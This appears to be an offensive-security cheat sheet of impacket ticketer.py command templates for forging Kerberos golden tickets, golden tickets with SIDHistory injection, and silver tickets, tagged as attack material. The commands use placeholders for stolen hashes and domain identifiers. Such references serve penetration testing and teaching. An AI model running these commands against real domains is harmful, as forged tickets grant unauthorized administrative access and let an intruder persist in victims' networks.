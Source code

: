 # ticketer (imp)

% impacket-kerberos, windows, kerberos, 88

## Ticketer - (golden ticket) - 
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## Ticketer - (golden ticket) - SIDHistory injection
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_hash> -domain-sid <child_sid> -extra-sid <sid_ets_admin> -domain <child_domain> <user>
```

## Ticketer - (silver ticket) - generate TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```
